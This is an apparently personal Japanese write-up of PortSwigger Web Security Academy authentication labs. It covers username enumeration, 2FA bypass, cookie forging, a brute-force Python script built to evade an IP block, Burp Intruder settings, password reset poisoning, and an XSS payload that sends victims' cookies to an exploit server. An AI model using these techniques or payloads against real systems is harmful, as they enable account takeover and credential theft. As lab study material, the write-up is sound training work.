






# Authentication
- [Authentication](#authentication)
  - [Username enumeration via different responses](#username-enumeration-via-different-responses)
  - [2FA simple bypass](#2fa-simple-bypass)
  - [Password reset broken logic](#password-reset-broken-logic)
  - [Username enumeration via subtly different responses](#username-enumeration-via-subtly-different-responses)
  - [Username enumeration via response timing](#username-enumeration-via-response-timing)
  - [Broken brute-force protection, IP block](#broken-brute-force-protection-ip-block)
    - [python script](#python-script)
  - [****Username enumeration via account lock****](#username-enumeration-via-account-lock)
  - [2FA broken logic](#2fa-broken-logic)
  - [****Brute-forcing a stay-logged-in cookie****](#brute-forcing-a-stay-logged-in-cookie)
  - [****Offline password cracking****](#offline-password-cracking)
  - [****Password reset poisoning via middleware****](#password-reset-poisoning-via-middleware)
    - [analyze](#analyze)
    - [password reset次のリクエストの確認](#password-reset次のリクエストの確認)
    - [exploit](#exploit)
  - [****Password brute-force via password change****](#password-brute-force-via-password-change)
    - [Analyze](#analyze-1)
    - [exploit](#exploit-1)
  - [****Broken brute-force protection, multiple credentials per request****](#broken-brute-force-protection-multiple-credentials-per-request)
  - [****2FA bypass using a brute-force attack****](#2fa-bypass-using-a-brute-force-attack)

## Username enumeration via different responses

---

クリア条件: ブルートフォースにより有効なユーザ名を取得しそのアカウントでログイン

username: a, password: aとした時のエラーが`Invalid username`である点に注目します。

本来望ましいのは、`Invalid username or password`のように推測させないことです。

username listをPortswiggerから入手し、Intruderで列挙します。

一つだけContent-Lengthが違うものがあるはずです。 (今回はalerts)



ResponseをRenderでみてみると、`Invalid Password`というエラーに変わったため、rootアカウントが存在しそうです。



最後にpasswordの総当りを試してこのラボは終了です。

## 2FA simple bypass

---

wiener:peterが初期情報として渡され、`calos:montoya`でログインを行う必要があります。

初期情報でログインしてみると、`Pelease enter .... code`という画面に遷移します。

mail addressに4桁のコードが飛んでくるようです。

2FAを飛ばしてみましょう。

遷移手順としては以下なので

`POST /login(username, password) -> 302 -> GET /login2 -> POST /login2(2FA) -> GET /my-account?id=wiener`

GET /login2をGET /my-account?id=wienerに置き換えてリクエストを送ってみるとログインできることが確認できるはずです。

## Password reset broken logic
---

my credentials winer: peter
victims calos

Password Reset機能に脆弱性がありそうなタイトルです。

Labをみてみると、password resetするユーザのメールアドレスか、アカウント名を入れると登録したメールアドレスにリンクが飛びpasswordを変更できそうです。

usernameが怪しすぎるので、username=carlosに変更して送信してみると受け付けられていそうな感じがします。

ということで、`carlos:password`でアクセスしてみるとアクセスできちゃいます。

## Username enumeration via subtly different responses

---

Bruteforceでユーザ名を列挙してアカウントに不正アクセスしましょうという問題

[Username enumeration via different responses](#username-enumeration-via-different-responses)で起きていたエラーメッセージ問題は解決されたようです。

| a:aと入力した結果|
| ---- |
|

がまぁとりあえず、username listを使いintruderをぶん回します。

と何故か一つだけ`.`がないError Messageが現れます。

| exam1 | exam2|
| ---- | ----| 
|  |  |

今回罠ポイントが性格悪くて迷いました。

`Invalid username or password`でエラーを検索 -> 全部引っかかる

`Invalid username or password.`でエラーを検索 -> regexで敗北

勘弁してくれー

usernameが違う場合とpasswordが違う場合で絶妙にエラーが違うようです。

まぁusernameがわかればあとはやるだけです。

## Username enumeration via response timing

---

my credentials > wiener:peter

titleから察するに存在するuserなら多少時間がかかって、存在しないuserなら時間そこまでかからないとかでしょう

usernameのリストに`wiener`を追加してusername部分に対してIntruderをぶん回します

とまぁやってみてもそこまでResponseに差がでなかったので絶望しそうでしたがなるほど。このラボはログイン試行回数が多いとエラーになるようです。


アカウント名がバラバラなのに制限がかかるということはIP制限を疑いたくなります。

`X-Forwrded-For`でどうにかできないか試してみます。



割とguessingが強いラボですが、まぁしゃあない。ということでレスポンスタイムが長いやつに当たりをつけて再度passwordのブルートフォースを行います。

この時何回かusernameに対してブルートフォースを仕掛け比較的長いやつに当たりをつけると良さそうです。

mysqlあたりでやてみますか。。

違うみたい。だる

> めんどくさすぎるのでやめる
> 

## Broken brute-force protection, IP block

---

my credentials wiener:peter
victim carlos

IPブロックっぽいのでX-Forwarded-Forを試しながらブルートフォースを仕掛けます。

error messageは良くないですね。

試行してみるとX-Forwarded-Forはだめであることがわかります。

一度正しいアカウントにログインすると、この制限をbypassできそうです。

3回目で制限がかかるので、2回総当りしたら、3回目はログインを行うような感じにします。

### python script

[Python Requests and Burp Suite](https://www.th3r3p0.com/random/python-requests-and-burp-suite.html)

ここを見て最初に設定をしておきましょう。

```bash
import requests
import os

url = "https://0a0700c404bfa7c085fb364500a50047.web-security-academy.net/login"
os.environ["HTTP_PROXY"] = "http://127.0.0.1:8080"
os.environ["HTTPS_PROXY"] = "http://127.0.0.1:8080"
os.environ["REQUESTS_CA_BUNDLE"] = "certificate.pem"

def decoi():
    username = "wiener"
    password = "peter"
    payload = {"username": username, "password": password}
    requests.post(url, data=payload, allow_redirects=False)

def bruteforce(password):
    username = "carlos"
    payload = {"username": username, "password": password}
    response = requests.post(url, data=payload, allow_redirects=False)
    if response.status_code == 302:
        print(password)
    else:
        print("not found")

with open("/tmp/password.txt") as f:
    for line in f:
        decoi()
        bruteforce(line.replace("\n", ""))
```

## ****Username enumeration via account lock****

---

IPで判断をせず存在するユーザ名に対してのブルートフォースに対してロックがかかるのだと予想します。

存在しないであろうusername: aに対して適当なパスワードで複数回ログイン試行してアカウントロックがかからないことを確認します。

username listとpassword: aを指定しIntruderを何回かぶん投げると一つだけContent-Lengthが違うアカウントがわかり存在するusernameの特定が可能となります。

今回はadsが存在するusernameでした。

```html
<section>
    <p class=is-warning>You have made too many incorrect login attempts. Please try again in 1 minute(s).</p>
    <form class=login-form method=POST action="/login">
        <label>Username</label>
        <input required type=username name="username" autofocus>
        <label>Password</label>
        <input required type=password name="password">
        <button class=button type=submit> Log in </button>
    </form>
</section>
```

アカウントロックの条件は、4回間違えることという条件も確認しておきます。

存在するusernameを指定してpasswrod listを回すと、一つだけError Messageが飛んでこないpasswordがあり、このラボはクリアです。

## 2FA broken logic

---

my credentials > wiener:peter

victim > carlos

```html
POST /login => 302 => GET /login2
```

という遷移で、cookieにはverifyヘッダーとしてusernameらしきものが指定されています。

`POST /login` のusername, passwordは正しいクレデンシャルで、verifyをtesterなど適当な値にしてみても2FAはwienerのものとして生成されていることがわかります。

次に、`GET /login2`に対して同じことをすると`Internal Server Error`になることがわかります。

testerではなくcarlosにしてみると、2FA入力画面に行くことからverifyに指定するユーザは存在するユーザでなければならないことがわかります。

```html
GET /login2 HTTP/2
Host: 0a5900ac0443b48482b5fb29007e00ee.web-security-academy.net
Cookie: verify=carlos; session=3kjWloF0RpXVwjfwUQI5jEmpYhhLK2iJ
```

verify=carlosにした時、2FAはwienerには飛んできていないことを確認してください。

つまり、**verify=carlosにすることによって、2FA codeが生成された可能性があります。**

2FAは4桁であることがわかっているので、あとはBruto Forceを行います。

```html
POST /login2 HTTP/2
Host: 0a5900ac0443b48482b5fb29007e00ee.web-security-academy.net
Cookie: verify=carlos; session=3kjWloF0RpXVwjfwUQI5jEmpYhhLK2iJ
Content-Length: 10
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a5900ac0443b48482b5fb29007e00ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5900ac0443b48482b5fb29007e00ee.web-security-academy.net/login2
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8

mfa-code=§§
```

```

Payload sets > Payload type: Number

Payload settings [Number] > number range 

from: 0000

to: 9999

step: 1

Payload settings [Number] > number format

Min integer digits: 4

Max integer digits: 4

Settings Tag > Rediretions > Never
```

この設定でぶん回し、302が返ってきた2fa codeを使用して終わりです。

## ****Brute-forcing a stay-logged-in cookie****

---

my credentials > wiener:peter

victim > carlos

このラボでは、`Stay logged in` 機能がついています。

```
POST /login HTTP/2
Host: 0ab8003c037db43c81b858ae00370080.web-security-academy.net
Cookie: session=RGDoEhWHPyhSACG6dGX8xFuHN8a4tAnf
Content-Length: 48
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0ab8003c037db43c81b858ae00370080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab8003c037db43c81b858ae00370080.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8

username=wiener&password=peter&stay-logged-in=on
```

staty-logged-inをonにすると、stay-logged-inというCookieが付与されるみたいです。

またsessionを消して、stay-logged-inのみでも認証語のリソースにアクセスが可能です。

```
GET /my-account?id=wiener HTTP/2
Host: 0ab8003c037db43c81b858ae00370080.web-security-academy.net
Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; session=14u3CEivMUMJECAxZi8uiiqcACsOhDLn
<redacted>
```

感のいいガキである皆さんは、stay-logged-inがBase64されていることに気づいていると思います。

`wiener:51dc30ddc473d43a6011e9ebba6ca770`

51…770をHash Analyzerで調べると、md5 or md4という結果が出てきます。

wienerのパスワードpeterをmd5関数にかけると同一値が取得でき、stay-logged-in Cookieは `Base64(username:password)` の形式であることがわかりました。

あとはやるだけです。

```
GET /my-account?id=carlos HTTP/2
Host: 0ab8003c037db43c81b858ae00370080.web-security-academy.net
Cookie: stay-logged-in=§d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw§;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0ab8003c037db43c81b858ae00370080.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

```
Intruder > Payloads Tab > Payload processing
Hash: MD5
Add Prefix: calos:
Base64-encode
```

## ****Offline password cracking****

---

my credentials > wiener:peter

victims > carlos

```jsx
<script>
fetch(`https://exploit-0a39002f03b7477e808c7b0e01c100da.exploit-server.net/log?cookie=${document.cookie}`);
</script>
```

上記を埋め込みXSSを発生させ、`stay-logged-in` Cookieを取得し、`GET /my-account?id=carlos` にし、取得したstay-logged-inをCookieに入れsessionを消しcarlosとしてloginを行います。

accountを消せば終わりなのですが、消すにはpasswordが必要なのでここはbrute-forceで乗り切ります。

⇒ できませんでし

stay-logged-inは、`carlos:26323c16d5f4dabff3bb136f2460a943`をbase64 encodeしたもので、hashはpassword listではなく検索する必要があるそうです。

crackstationを使い検索してみると、onceuponatimeであることがわかり、このパスワードを使用してアカウントを消せば良い。

## ****Password reset poisoning via middleware****

---

```
my credentials > wiener:peter

carlosは受信したメールに書かれているリンクを不注意にクリックする

carlosでアクセスすれば勝利
```

### analyze

URLを動的に生成する可能性のある部分を見ていきます。

Top > My Accountに移動し、Forgot password?を押下後password reset requestを送信します。

```
POST /forgot-password HTTP/2
Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
<redacted>

username=wiener
```

取得したリンクは`https://0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net/forgot-password?temp-forgot-password-token=if7jv7vusirbk3uw4vspj1plgt3m94xa`です

Host Headerを見て動的にURLを生成している可能性を考え、`X-Forwrded-Host` を利用してみます。

```
POST /forgot-password HTTP/2
Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
<redacted>
X-Forwarded-Host: example.com

username=wiener
```

こうすると、メールクライアントに`https://example.com/forgot-password?temp-forgot-password-token=1lzsytk4f2nuibo0mon4k9d2ouf5vn3b`　が飛んできます。

つまり、host headerを見て動的にURLを生成していることがわかります。

飛んできているURLを見るとクエリパラメータにtokenがあるのでHostを掌握しているドメインにして被害者にアクセスをさせればアクセスログでtokenを確認できそうです。

### password reset次のリクエストの確認

ここでは、リセットをする際のリクエストを除いておきます。

```
POST /forgot-password?temp-forgot-password-token=o5pbq9j1sanrmbvrbdi1y9t791zra9lw HTTP/2
Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
<redacted>

temp-forgot-password-token=o5pbq9j1sanrmbvrbdi1y9t791zra9lw&new-password-1=password&new-password-2=password
```

temp-forgoto-password-tokengがユーザ名と紐づいている感じでしょう。

つまりtokenだけ取得しておけば勝利できそうです。

### exploit

それではLabをクリアしていきましょう。

1. password reset requestを送信し、burpなりでキャプチャし、X-Forwarded-Hostにexploit serverのドメインを指定し、usernameに被害者アカウントを指定する
    
    ```
    POST /forgot-password HTTP/2
    Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
    Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
    <redacted>
    X-Forwarded-Host: exploit-0a19008f03b9e2b9805548a201f4006b.exploit-server.net
    
    username=carlos
    ```
    
2. このラボの前提条件でcarlosは送られてきたリンクを踏むとあるため、アクセスログを確認し、temp-forgot-password-tokenを取得する。
    
    ```
    	10.0.3.226      2023-09-30 08:57:19 +0000 "GET /forgot-password?temp-forgot-password-token=wltfo37ttocg4mif3ca9xf4ma6j971sb HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
    ```
    
3. 取得したtokenを使ってpassword reset requestを送信する
    
    ```
    POST /forgot-password?temp-forgot-password-token=wltfo37ttocg4mif3ca9xf4ma6j971sb HTTP/2
    Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
    Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
    <redacted>
    
    temp-forgot-password-token=wltfo37ttocg4mif3ca9xf4ma6j971sb&new-password-1=password&new-password-2=password
    ```
    
4. carlos, 先ほど指定したpasswordで被害者アカウントにアクセスをする

## ****Password brute-force via password change****

---

```
my credentials > wiener:peter
victim user > carlos
```

### Analyze

> This lab's password change functionality makes it vulnerable to brute-force attacks.
> 

パスワード変更機能に脆弱性があるようなので一度自身の認証情報でアクセスしてみます。

色々試していると以下がわかりました。

- Current Passwordパラメータ自体を消してpasswordの変更は出来ない
- Current Passwordを間違った値、New password, Confirm new passwordに同じ値を入れると強制的にログアウトを喰らい、accountにロックがかかる
- Current Passwordに正しい値をいれ、New Password, Confirm new Passwordに別の値を入れると、`New passwords do not match` というエラーがでて、ログアウトされない。
- usernameパラメータを別のアカウントの名前にして適当な値を入れてみると`Current password is incorrect`
- Current Passwordに間違った値、New password, Confirm new passwordに間違った値を入れると`Current password is incorrect` でログアウトはされない
- 

なるほど。

パスワード変更の際のリクエストは以下です。

```
POST /my-account/change-password HTTP/2
Host: 0a4800720370fdd283573ce200580075.web-security-academy.net
Cookie: session=s1r6ETUSXsD9M35eJy4xXNdLZFOt0iEq; session=LY05nHV6iXK4Nhb4umewx044CzOyQB65
<redacted>

username=wiener&current-password=a&new-password-1=a&new-password-2=a
```

判明したことからパスワードチェンジの際にNew password, Confirm new passwordでそれぞれ別の値をいれ、`New passwords do not match` がでた場合それが正しいパスワードであることが判明しそうです。

### exploit

1. パスワード変更のリクエスをintruderに送る
    1. Positionsはusernameをターゲットにする
        
        ```
        PPOST /my-account/change-password HTTP/2
        Host: 0a4800720370fdd283573ce200580075.web-security-academy.net
        Cookie: session=wu57zt598O72YMbSnqjeGpAwHrrQ0Diz; session=Doyw5TmuReHMlqVYQKNdfnsGYgMjS6YD
        <redacted>
        
        username=carlos&current-password=§a§&new-password-1=v&new-password-2=b
        ```
        
    2. Attack typeをsniperにし、payloadにpassword listを指定する。
2. ぶん回す。

レスポンス内に、New passwords do not matchがある時のパスワードがcarlosのパスワードです。

あとは認証情報を使ってアクセスすれば終わりです。

## ****Broken brute-force protection, multiple credentials per request****

---

coming soon…..

## ****2FA bypass using a brute-force attack****

---

coming soon
